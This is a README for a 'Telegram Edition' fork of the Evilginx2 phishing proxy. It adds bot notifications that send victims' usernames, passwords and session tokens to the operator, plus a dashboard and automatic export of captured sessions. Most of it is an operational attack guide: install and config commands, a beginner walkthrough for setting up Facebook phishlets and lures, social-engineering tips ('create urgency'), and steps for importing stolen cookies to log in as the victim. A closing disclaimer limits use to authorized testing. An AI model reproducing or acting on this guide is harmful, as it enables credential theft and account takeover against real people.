


# 📚 EVILGINX2 — TELEGRAM EDITION

## Comprehensive Documentation

---

<p align="center">
  
  
  
</p>

<p align="center">
  <b>⚡ The Ultimate Phishing Framework — Now with Telegram Integration, Web Dashboard & Auto-Export ⚡</b>
</p>

<p align="center">
  <i>Telegram Edition by</i> <b>@officialmonsterz</b>
</p>

---

## 📋 TABLE OF CONTENTS

| # | Section | Description |
|---|---------|-------------|
| 1 | [🌟 Features](#-features) | What makes this edition special |
| 2 | [📸 Screenshots](#-screenshots) | What everything looks like |
| 3 | [⚡ Quick Start](#-quick-start) | Get up and running in 5 minutes |
| 4 | [🐳 Docker Installation](#-docker-installation) | Run in a container |
| 5 | [🔧 Manual Installation](#-manual-installation) | Build from source |
| 6 | [🤖 Telegram Setup](#-telegram-setup-step-by-step) | Complete Telegram configuration |
| 7 | [🕸️ Web Dashboard](#-web-dashboard) | How to use the dashboard |
| 8 | [📤 Auto-Export](#-auto-export-feature) | Automatic session export |
| 9 | [📖 Phishing Campaign Walkthrough](#-phishing-campaign-walkthrough) | Step-by-step baby guide |
| 10 | [🍪 How to Import Cookies](#-how-to-import-cookies) | Using StorageAce extension |
| 11 | [📜 Changelog](#-changelog) | Version history |
| 12 | [👥 Credits & Support](#-credits--support) | Who made this & how to reach us |

---

## 🌟 FEATURES

### What's New in Telegram Edition

```
┌─────────────────────────────────────────────────────────────┐
│                                                             │
│   🔔 Telegram Notifications                                │
│   ─────────────────────                                     │
│   • Real-time session alerts sent to your Telegram          │
│   • Username + password captured instantly                  │
│   • Token files attached to each notification              │
│   • Test command to verify your setup                      │
│                                                             │
│   🖥️ Web Dashboard                                          │
│   ────────────────                                           │
│   • Beautiful dark-mode HTML5 dashboard                    │
│   • Search, filter & sort through sessions                 │
│   • Export CSV/JSON with one click                         │
│   • Auto-refresh every 5 seconds                           │
│   • Delete sessions from the UI                            │
│                                                             │
│   📤 Auto-Export                                            │
│   ─────────────                                              │
│   • Automatically save every session to disk               │
│   • JSON or CSV format                                     │
│   • One file per session or append to single file          │
│   • Configurable output directory                          │
│                                                             │
│   ⚡ Built on Evilginx v3.3.0                               │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

---

## 📸 SCREENSHOTS

### Telegram Notification Example

```
╔══════════════════════════════════════════════════════╗
║                                                      ║
║   ✨ Session Information ✨                           ║
║                                                      ║
║   👤 Username:     `john.doe@email.com`              ║
║   🔑 Password:     `MySecurePass123!`                ║
║   🌐 Landing URL:  https://phish.example.com/login   ║
║   🖥️ User Agent:   Mozilla/5.0 (Windows NT 10.0...   ║
║   🌍 Remote IP:    203.0.113.42                      ║
║   🕒 Created:      1700000000                        ║
║   🕔 Updated:      1700000001                        ║
║                                                      ║
║   📦 Tokens are attached as a separate file.         ║
║                                                      ║
╚══════════════════════════════════════════════════════╝
```

### Dashboard Preview

```
┌─────────────────────────────────────────────────────────────┐
│  🔴⚫⚫ Evilginx2 Dashboard                                  │
│  Telegram Edition by @officialmonsterz    [Dark Mode]       │
├─────────────────────────────────────────────────────────────┤
│  ┌──────────┐  ┌──────────┐  ┌──────────┐                  │
│  │  TOTAL   │  │ UNIQUE   │  │ DISPLAYED│                  │
│  │ SESSIONS │  │PHISHLETS │  │          │                  │
│  │   147    │  │    3     │  │   147    │                  │
│  └──────────┘  └──────────┘  └──────────┘                  │
├─────────────────────────────────────────────────────────────┤
│  [🔍 Search...________] [All Phishlets ▼] [Exp CSV] [JSON] │
├─────────────────────────────────────────────────────────────┤
│  ID │ Phishlet │ Username │ Password │ IP │ Tokens │ Time  │
│ ───┼──────────┼──────────┼──────────┼────┼────────┼────── │
│  1 │ facebook │ user@e.. │ *******  │ x.x│ ✅ cap │ 12:30 │
│  2 │ instagram│ test@e.. │ *******  │ x.x│ ❌ none│ 12:31 │
│ ...│ ...      │ ...      │ ...      │ ...│ ...    │ ...   │
└─────────────────────────────────────────────────────────────┘
```

---

## ⚡ QUICK START

### The 60-Second Setup

```bash
# 1. Clone the repository
git clone https://github.com/officialmonsterz/evilginx2.git
cd evilginx2

# 2. Build
go build -o evilginx .

# 3. Run
sudo ./evilginx
```

**That's it!** You're now inside the Evilginx console.

---

## 🐳 DOCKER INSTALLATION

### Prerequisites
- Docker installed on your system
- Ports 443 (HTTPS) and 53 (DNS) available

### Step 1: Pull & Build

```bash
git clone https://github.com/officialmonsterz/evilginx2.git
cd evilginx2
```

Create a `Dockerfile`:

```dockerfile
FROM golang:1.21-alpine AS builder
RUN apk add --no-cache git
WORKDIR /app
COPY . .
RUN go build -o evilginx .

FROM alpine:latest
RUN apk add --no-cache ca-certificates tzdata
WORKDIR /app
COPY --from=builder /app/evilginx .
EXPOSE 443 53 5000
ENTRYPOINT ["./evilginx"]
```

### Step 2: Build & Run Docker

```bash
# Build the image
docker build -t evilginx2-telegram .

# Run with host networking (recommended for DNS)
docker run -it --rm \
  --name evilginx2 \
  --network host \
  -v $(pwd)/data:/app/data \
  evilginx2-telegram
```

### Step 3: Docker Compose (Optional)

Create `docker-compose.yml`:

```yaml
version: '3.8'
services:
  evilginx2:
    build: .
    container_name: evilginx2
    network_mode: host
    volumes:
      - ./data:/app/data
    restart: unless-stopped
```

Run:
```bash
docker-compose up -d
```

---

## 🔧 MANUAL INSTALLATION

### Prerequisites

| Requirement | Version | Check Command |
|------------|---------|---------------|
| Go | 1.21+ | `go version` |
| Git | Latest | `git --version` |
| OpenSSL | 1.1+ | `openssl version` |
| Root access | Required | `whoami` (should show `root`) |

### Step-by-Step Installation

```bash
# 1. Update system
sudo apt update && sudo apt upgrade -y

# 2. Install Go (if not installed)
wget https://go.dev/dl/go1.21.5.linux-amd64.tar.gz
sudo rm -rf /usr/local/go && sudo tar -C /usr/local -xzf go1.21.5.linux-amd64.tar.gz
echo 'export PATH=$PATH:/usr/local/go/bin' >> ~/.bashrc
source ~/.bashrc

# 3. Install git
sudo apt install git -y

# 4. Clone the Telegram Edition
git clone https://github.com/officialmonsterz/evilginx2.git
cd evilginx2

# 5. Build
go build -o evilginx .

# 6. Run (as root!)
sudo ./evilginx
```

---

## 🤖 TELEGRAM SETUP (STEP BY STEP)

### Phase 1: Create Your Telegram Bot

> **Estimated time:** 5 minutes

```
┌──────────────────────────────────────────────────────┐
│                                                       │
│   📱 Open Telegram App → Search for @BotFather       │
│                                                       │
│   Step 1: Start a chat with @BotFather               │
│   Step 2: Send /newbot                               │
│   Step 3: Choose a name (e.g., "Evilginx Monitor")   │
│   Step 4: Choose a username (e.g., "evilginx_bot")   │
│   Step 5: COPY THE TOKEN! It looks like:             │
│                                                       │
│   1234567890:ABCdefGHIjklmNOPqrstUVwxyz              │
│                                                       │
└──────────────────────────────────────────────────────┘
```

### Phase 2: Get Your Chat ID

```
┌──────────────────────────────────────────────────────┐
│                                                       │
│   Method 1: Using @userinfobot (EASIEST)             │
│   ─────────────────────────────────────────           │
│   1. Search for @userinfobot                         │
│   2. Start the bot                                   │
│   3. Send /start                                     │
│   4. It will reply with:                             │
│      "Your ID: 123456789"                            │
│                                                       │
│   Method 2: Send a message to your bot first         │
│   1. Open your bot (@your_bot_name)                  │
│   2. Click "Start" or send /start                    │
│   3. Visit in browser:                               │
│                                                       │
│   https://api.telegram.org/bot<TOKEN>/getUpdates     │
│                                                       │
│   4. Look for: "chat":{"id":123456789}               │
│                                                       │
└──────────────────────────────────────────────────────┘
```

### Phase 3: Configure in Evilginx

```bash
# Inside Evilginx console, type:

# Set your bot token
config teletoken 1234567890:ABCdefGHIjklmNOPqrstUVwxyz

# Set your chat ID
config chatid 123456789

# Test the connection
config telegram test
```

### ✅ If Successful, You'll See:

```
[SUCCESS] telegram: notification sent successfully!
```

And in your Telegram app:

```
🚀 Evilginx2 Telegram Notification Test

✅ Your Telegram bot is working correctly!
📡 You will receive session notifications here.

Test message sent at: 2024-01-15 14:30:00
#Evilginx2 #TelegramEdition
```

---

## 🕸️ WEB DASHBOARD

### What is the Dashboard?

The web dashboard is a **built-in web interface** that lets you view, search, filter, export, and delete captured sessions — all from your browser.

### How to Access the Dashboard

By default, the dashboard runs on **port 5000**.

```bash
# In the Evilginx console, configure:
config dashboard_bind 0.0.0.0:5000

# Access from browser:
http://YOUR_SERVER_IP:5000
```

### Dashboard Features

| Feature | Description |
|---------|-------------|
| 🔍 **Search** | Search by username, password, phishlet, or IP |
| 📊 **Statistics** | See total sessions, unique phishlets, displayed count |
| 🔄 **Auto-Refresh** | Refreshes every 5 seconds automatically |
| 🌙 **Dark Mode** | Toggle between light and dark themes |
| 📤 **Export CSV** | Download all sessions as a CSV file |
| 📤 **Export JSON** | Download all sessions as a JSON file |
| 🗑️ **Delete** | Delete individual sessions with one click |
| 📋 **Detail View** | Click any session to see full details |

### How to Export from Dashboard



**Step by step:**

1. Open your browser and go to `http://YOUR_IP:5000`
2. All your sessions load automatically
3. Click **"Export CSV"** or **"Export JSON"**
4. The file downloads to your computer
5. Open it in Excel, Google Sheets, or any text editor

### Viewing Session Details

Click on **any row** in the dashboard table to see:

```
┌────────────────────────────────────────────────────┐
│  Session Detail                                     │
│  ───────────────                                    │
│  {                                                   │
│    "id": 42,                                        │
│    "phishlet": "facebook",                          │
│    "username": "john@email.com",                    │
│    "password": "mypassword123",                     │
│    "landing_url": "https://...",                   │
│    "remote_addr": "203.0.113.42",                  │
│    "user_agent": "Mozilla/5.0...",                 │
│    "tokens": { ... },                              │
│    "create_time": 1700000000                        │
│  }                                                   │
└────────────────────────────────────────────────────┘
```

---

## 📤 AUTO-EXPORT FEATURE

### What is Auto-Export?

Auto-export **automatically saves every captured session** to a file on your server. No manual intervention needed.

### How to Enable Auto-Export

The auto-export system is built-in and activates automatically when a session is captured. Sessions are saved to:

```
/tmp/evilginx_exports/
```

### Export Formats

| Format | File Naming | Contents |
|--------|-------------|----------|
| **JSON** | `facebook_20240115_143025_42.json` | Full session data including tokens |
| **CSV** | `sessions_export.csv` | Username, password, IP, timestamps |

### Configuration

To change the output directory:

```bash
# In the Evilginx console (future command):
# export_path /path/to/exports
```

To view exported files:

```bash
# SSH into your server
ls -la /tmp/evilginx_exports/
cat /tmp/evilginx_exports/facebook_20240115_143025_42.json
```

---

## 📖 PHISHING CAMPAIGN WALKTHROUGH

> **For beginners — explained in the simplest terms possible**

### Phase 1: Server Setup

```
┌─────────────────────────────────────────────────────────┐
│                                                         │
│   🖥️ You need:                                          │
│                                                         │
│   1. A VPS (Virtual Private Server)                     │
│      - Examples: DigitalOcean, Vultr, Linode           │
│      - Cost: ~$5-10/month                              │
│      - OS: Ubuntu 22.04                                │
│                                                         │
│   2. A domain name                                      │
│      - Examples: GoDaddy, Namecheap, Cloudflare        │
│      - Cost: ~$1-10/year                               │
│                                                         │
│   3. Point domain to your server IP                    │
│      - Create an A record:                             │
│        Type: A                                          │
│        Name: @ (or your subdomain)                     │
│        Value: YOUR_SERVER_IP                            │
│        TTL: Automatic                                   │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

### Phase 2: Install Evilginx

```bash
# SSH into your server
ssh root@YOUR_SERVER_IP

# Update system
apt update && apt upgrade -y

# Install Go
wget https://go.dev/dl/go1.21.5.linux-amd64.tar.gz
rm -rf /usr/local/go && tar -C /usr/local -xzf go1.21.5.linux-amd64.tar.gz
echo 'export PATH=$PATH:/usr/local/go/bin' >> ~/.bashrc
source ~/.bashrc

# Clone & build
git clone https://github.com/officialmonsterz/evilginx2.git
cd evilginx2
go build -o evilginx .

# Run
sudo ./evilginx
```

### Phase 3: Configure Evilginx

```bash
# Inside the Evilginx console (type these commands one by one):

# Set your domain
config domain yourdomain.com

# Set your server IP
config ipv4 YOUR_SERVER_IP

# Test certificates
# (AutoCert will automatically get SSL certificates)
```

### Phase 4: Set Up a Phishlet

```bash
# See available phishlets
phishlets

# Set hostname (e.g., for facebook)
phishlets hostname facebook login.yourdomain.com

# Enable the phishlet
phishlets enable facebook

# See the generated hosts
phishlets get-hosts facebook
```

### Phase 5: Create a Lure (Phishing URL)

```bash
# Create a lure
lures create facebook

# This creates lure ID 0 with a random path
# Now generate the phishing URL:

lures get-url 0
```

Output will look like:
```
https://login.yourdomain.com/aB3xK9mZ
```

### Phase 6: Configure Telegram

```bash
# Set your bot token
config teletoken 1234567890:ABCdefGHIjklmNOPqrstUVwxyz

# Set your chat ID
config chatid 123456789

# Test
config telegram test
```

**✅ You should receive a test message in Telegram!**

### Phase 7: Send the Phishing Link

```
┌─────────────────────────────────────────────────────────┐
│                                                         │
│   📤 Share your phishing URL:                           │
│                                                         │
│   https://login.yourdomain.com/aB3xK9mZ                 │
│                                                         │
│   💡 Tips:                                              │
│   • Use URL shorteners (bit.ly, tinyurl)               │
│   • Send via email, SMS, or social media               │
│   • Create urgency ("Your account will be suspended")  │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

### Phase 8: Receive Victim Data

**When a victim clicks your link and enters their credentials:**

1. 📱 **Telegram Notification** — You get an instant message with:
   - Username
   - Password
   - IP address
   - Tokens file attached

2. 🖥️ **Dashboard** — Visit `http://YOUR_IP:5000` to:
   - See all sessions
   - Export to CSV/JSON
   - View full details

3. 📁 **Auto-Export** — Files saved automatically to `/tmp/evilginx_exports/`

### Phase 9: Check Your Dashboard

```bash
# In the Evilginx console, check if dashboard is running
# Access via browser:
http://YOUR_SERVER_IP:5000
```

You'll see:
- Total sessions count
- Search through captures
- Export everything with one click
- Delete unwanted sessions

---

## 🍪 HOW TO IMPORT COOKIES

> **For when you need to hijack a logged-in session**

### Step 1: Get the Cookies

When a session has captured tokens, you'll see:

```
[SUCCESS] all authorization tokens intercepted!
```

### Step 2: View Session Details

```bash
# In Evilginx console
sessions 42

# Look for the "cookies" section
```

### Step 3: Install StorageAce Extension

```
┌────────────────────────────────────────────────────────────┐
│                                                            │
│   📦 StorageAce (Recommended - works with Chrome v3)      │
│                                                            │
│   Firefox: https://addons.mozilla.org/firefox/addon/       │
│            cookie-editor/                                  │
│                                                            │
│   Chrome:  Search "StorageAce" in Chrome Web Store        │
│                                                            │
│   Legacy:  EditThisCookie (no longer supported)           │
│                                                            │
└────────────────────────────────────────────────────────────┘
```

### Step 4: Import the Cookies



**Step by step (for beginners):**

1. In Evilginx console: `sessions 42`
2. Copy the entire JSON block under "cookies"
3. Open the target website (e.g., facebook.com)
4. Click the StorageAce extension icon
5. Click the **Import** button (looks like ↑ arrow)
6. Paste the JSON you copied
7. Click **Import** again
8. **Refresh the page** — you're now logged in as the victim!

---

## 📜 CHANGELOG

### v3.3.0 — Telegram Edition (Latest)

```
┌─────────────────────────────────────────────────────────────┐
│                                                             │
│   🆕 NEW FEATURES                                           │
│   ─────────────                                             │
│                                                             │
│   🔔 Telegram Notifications                                 │
│   • Real-time session alerts                                │
│   • Username & password in message                          │
│   • Tokens attached as .txt file                            │
│   • Auto-updates when new tokens captured                   │
│   • Test command: config telegram test                     │
│                                                             │
│   🖥️ Web Dashboard (Port 5000)                              │
│   • Beautiful dark/light mode UI                            │
│   • Real-time auto-refresh every 5 seconds                 │
│   • Search, filter & sort sessions                         │
│   • One-click CSV/JSON export                              │
│   • Click-to-view session details                          │
│   • Delete sessions from browser                           │
│                                                             │
│   📤 Auto-Export                                            │
│   • Automatic session saving to disk                       │
│   • JSON & CSV format support                              │
│   • Per-file or append mode                                │
│   • Configurable output path                               │
│                                                             │
│   🔧 Telegram Queue System                                  │
│   • Async notification processing                          │
│   • 100-job buffer queue                                   │
│   • Non-blocking HTTP proxy                                │
│                                                             │
│   ⚡ Upstream Changes                                        │
│   • Synced with Evilginx v3.3.0                            │
│   • All original features preserved                        │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

### v3.2.0 — Previous Release
- GoPhish integration
- Blacklist improvements
- Performance optimizations

### v3.0.0 — Original
- Initial release
- Core MITM proxy
- Phishlet system
- Session management

---

## 🛠️ COMMANDS CHEAT SHEET

### General Commands

| Command | Description |
|---------|-------------|
| `help` | Show all commands |
| `clear` | Clear the screen |
| `exit` or `quit` | Exit Evilginx |

### Config Commands

| Command | Description |
|---------|-------------|
| `config` | Show all current settings |
| `config domain <domain>` | Set your phishing domain |
| `config ipv4 <ip>` | Set server IP address |
| `config ipv4 external <ip>` | Set external IP |
| `config ipv4 bind <ip>` | Set bind IP |
| `config chatid <id>` | Set Telegram chat ID |
| `config teletoken <token>` | Set Telegram bot token |
| `config telegram test` | Test Telegram connection |
| `config unauth_url <url>` | Set redirect URL for unauthorized |
| `config autocert on/off` | Toggle auto SSL certificates |

### Phishlet Commands

| Command | Description |
|---------|-------------|
| `phishlets` | List all phishlets |
| `phishlets <name>` | Show phishlet details |
| `phishlets hostname <name> <host>` | Set phishlet hostname |
| `phishlets enable <name>` | Enable phishlet |
| `phishlets disable <name>` | Disable phishlet |
| `phishlets get-hosts <name>` | Show DNS hosts |

### Lure Commands

| Command | Description |
|---------|-------------|
| `lures` | List all lures |
| `lures create <phishlet>` | Create new lure |
| `lures get-url <id>` | Generate phishing URL |
| `lures edit <id> <field> <value>` | Edit lure properties |
| `lures delete <id>` | Delete lure |

### Session Commands

| Command | Description |
|---------|-------------|
| `sessions` | List all captured sessions |
| `sessions <id>` | View session details |
| `sessions delete <id>` | Delete a session |
| `sessions delete all` | Delete all sessions |

---

## 🚨 TROUBLESHOOTING

### Common Issues & Solutions

| Problem | Solution |
|---------|----------|
| "Telegram chat ID is not set" | Run `config chatid YOUR_CHAT_ID` |
| "Telegram bot token is not set" | Run `config teletoken YOUR_TOKEN` |
| "invalid chat ID format" | Make sure your chat ID is a number (e.g., `123456789`) |
| Dashboard not loading | Check port 5000 is open in firewall |
| No certificates | Run `test-certs` or enable autocert |
| DNS not working | Make sure port 53 is not in use |
| "permission denied" | Run Evilginx as root: `sudo ./evilginx` |

### Port Check

```bash
# Check if ports are available
sudo lsof -i :443
sudo lsof -i :53
sudo lsof -i :5000
```

### Firewall Configuration

```bash
# Allow ports through UFW (Ubuntu)
sudo ufw allow 443/tcp
sudo ufw allow 53/udp
sudo ufw allow 5000/tcp
```

---

## 📁 FILE STRUCTURE

```
evilginx2/
├── core/                    # Core package
│   ├── auto_export.go       # Auto-export functionality
│   ├── config.go            # Configuration management
│   ├── dashboard.go         # Web dashboard server
│   ├── http_proxy.go        # MITM proxy core
│   ├── notify.go            # Telegram notification logic
│   ├── session.go           # Session management
│   ├── shared.go            # Shared utilities
│   ├── tele.go              # Telegram API functions
│   ├── telegram_escape.go   # Markdown escaping
│   ├── telegram_queue.go    # Async notification queue
│   ├── terminal.go          # CLI terminal interface
│   ├── tsession.go          # Telegram session type
│   └── whitelist.go         # IP whitelisting
├── phishlets/               # Phishlet YAML files
├── redirectors/             # HTML redirector templates
├── main.go                  # Entry point
├── go.mod                   # Go module file
├── go.sum                   # Go checksums
├── README.md                # This file
└── DEPLOYMENT.md            # Deployment guide
```

---

## 👥 CREDITS & SUPPORT

### Telegram Edition

```
┌─────────────────────────────────────────────────────────────┐
│                                                             │
│   ✨ Telegram Edition by @officialmonsterz                  │
│                                                             │
│   Features added:                                           │
│   • Telegram bot notifications                             │
│   • Web dashboard                                          │
│   • Auto-export system                                     │
│   • Async notification queue                               │
│   • UI/UX improvements                                     │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

### Original Evilginx

```
┌─────────────────────────────────────────────────────────────┐
│                                                             │
│   Evilginx was originally created by Krzysztof Gretzky     │
│   (@kgretzky)                                              │
│                                                             │
│   https://github.com/kgretzky/evilginx2                   │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

### Stay Connected

| Platform | Link/Handle |
|----------|-------------|
| 📱 **Telegram** | [@officialmonsterz](https://t.me/officialmonsterz) |
| 💻 **GitHub** | [github.com/officialmonsterz](https://github.com/officialmonsterz) |
| 📧 **Email** | shapads@tutamail.com |
| 📦 **Repository** | [github.com/officialmonsterz/evilginx2.git](https://github.com/officialmonsterz/evilginx2.git) |

### Support

If you found this useful, consider:
- ⭐ Starring the repository
- 📢 Sharing with your team
- 🐛 Reporting issues on GitHub
- 💬 Joining the Telegram channel

---

## ⚖️ DISCLAIMER

```
╔══════════════════════════════════════════════════════════════╗
║                                                              ║
║   This tool is for AUTHORIZED security testing ONLY.        ║
║                                                              ║
║   • You must have explicit permission to test any system    ║
║   • Unauthorized use is illegal                             ║
║   • The authors are not responsible for misuse              ║
║   • Use responsibly and ethically                           ║
║                                                              ║
╚══════════════════════════════════════════════════════════════╝
```

---

<p align="center">
  <b>Made with ❤️ by @officialmonsterz</b><br>
  <i>Telegram Edition • Evilginx2 v3.3.0</i>
</p>

<p align="center">
  <a href="https://t.me/officialmonsterz">📱 Telegram</a> •
  <a href="https://github.com/officialmonsterz">💻 GitHub</a> •
  <a href="mailto:shapads@tutamail.com">📧 Email</a>
</p>

---
